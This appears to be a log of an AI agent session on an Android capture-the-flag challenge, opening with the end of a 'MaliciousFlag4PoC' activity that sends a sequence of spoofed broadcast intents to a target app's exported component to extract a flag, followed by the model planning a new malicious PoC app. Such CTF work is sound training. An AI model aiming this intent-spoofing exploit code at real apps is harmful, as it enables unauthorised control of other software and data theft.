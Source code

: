         // Step 2: Send BUILD_ACTION
        Intent buildIntent = new Intent(BUILD_ACTION);
        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(buildIntent);
        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION");

        // Step 3: Send GET_FLAG_ACTION
        Intent getFlagIntent = new Intent(GET_FLAG_ACTION);
        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(getFlagIntent);
        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION");

        // Step 4: Send a final intent to trigger success(this) from GET_FLAG state
        // Any intent will work here, let's re-send GET_FLAG_ACTION or an empty intent
        Intent triggerSuccessIntent = new Intent(GET_FLAG_ACTION); // Or new Intent();
        triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(triggerSuccessIntent);
        Log.d("MaliciousFlag4PoC", "Sent final trigger intent.");

        Toast.makeText(this, "Exploit intents sent. Check logs for flag.", Toast.LENGTH_LONG).show();
        finish(); // Close the malicious activity
    }
}


==================== TURN 4/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Understanding the Task: Android Application Vulnerability Discovery**

Okay, so I've got an Android app to dissect. The goal is to hunt down a vulnerability tied to this "Flag4 challenge" and then build a working Proof of Concept (PoC).  This sounds like a typical reverse engineering and penetration testing scenario. My initial thought process?

**Phase 1: Defining the Approach**

First things first, I need to get a clear picture of what I'm dealing with. Looking at the project structure, I see the usual suspects: `AndroidManifest.xml`, Java source files, and a bunch of resource directories. It's a classic Android app.  The presence of both `.java` and `kotlin/` directories suggests it's a mixed Java/Kotlin codebase. No problem; I'm comfortable with both.

For the PoC, I know the drill. It'll be a small, standalone Android application, basically a malicious app tailored to exploit the vulnerability. It'll have its own `AndroidManifest.xml` and Java file. The game plan is to target an exported component (like an Activity, Service, or BroadcastReceiver) in the target app using Intents. That's the key to triggering the vulnerability, the mechanism for the exploit.

**Phase 2: Diving In**

Now, time to get my hands dirty. I'll need to locate the "Flag4" challenge within the decompiled code.  I'll start by doing a quick search for "Flag4" throughout the project files. Java files and the `AndroidManifest.xml` file will be the most crucial to check for relevant code. It's time to start digging!
